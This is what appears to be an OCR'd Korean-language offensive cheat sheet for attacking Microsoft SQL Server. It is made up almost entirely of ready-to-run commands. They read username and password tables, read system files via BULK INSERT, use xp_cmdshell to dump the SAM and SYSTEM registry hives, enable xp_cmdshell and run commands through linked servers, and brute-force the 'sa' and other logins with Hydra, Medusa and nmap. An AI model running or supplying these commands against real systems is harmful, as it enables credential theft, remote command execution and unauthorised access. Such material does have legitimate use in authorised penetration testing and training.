### 💾 데이터 수집 및 파일 접근

```bash
# 중요 데이터베이스 테이블 확인
USE master;
SELECT name FROM sys.databases;

# 특정 데이터베이스의 테이블 확인
USE [database_name];
SELECT * FROM sys.tables;

# 사용자 데이터 확인
SELECT * FROM users;
SELECT * FROM accounts;
SELECT username, password FROM login_table;

# 시스템 파일 읽기 (BULK INSERT 활용)
CREATE TABLE temp_table (data varchar(8000));
BULK INSERT temp_table FROM 'C:\Windows\System32\drivers\etc\hosts';
SELECT * FROM temp_table;
DROP TABLE temp_table;

# 파일 쓰기 (bcp 활용)
EXEC xp_cmdshell 'echo "test content" > C:\temp\test.txt';

# SAM/SYSTEM 파일 접근 시도
EXEC xp_cmdshell 'reg save HKLM\SAM C:\temp\sam.save';
EXEC xp_cmdshell 'reg save HKLM\SYSTEM C:\temp\system.save';
```

### 🔗 링크된 서버 악용

```bash
# 링크된 서버 확인
SELECT * FROM sys.servers;
EXEC sp_linkedservers;

# 링크된 서버를 통한 명령 실행
EXEC ('xp_cmdshell ''whoami''') AT [LINKED_SERVER_NAME];

# 링크된 서버의 데이터베이스 확인
SELECT * FROM OPENQUERY([LINKED_SERVER_NAME], 'SELECT name FROM sys.databases');

# 링크된 서버를 통한 권한 상승
EXEC ('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE;') AT [LINKED_SERVER_NAME];
EXEC ('EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [LINKED_SERVER_NAME];
```

### 🔐 브루트포스 공격 (기본 자격증명 실패시)

```bash
# Hydra를 이용한 MSSQL 브루트포스
hydra -l sa -P /usr/share/wordlists/rockyou.txt mssql://{IP}
hydra -L users.txt -P passwords.txt mssql://{IP}

# 일반적인 MSSQL 계정들
hydra -L mssql_users.txt -P passwords.txt mssql://{IP}
# mssql_users.txt: sa, admin, mssql, sql, dbo, guest

# Medusa 사용
medusa -h {IP} -u sa -P /usr/share/wordlists/rockyou.txt -M mssql

# nmap 브루트포스
nmap --script ms-sql-brute -p 1433 {IP}

```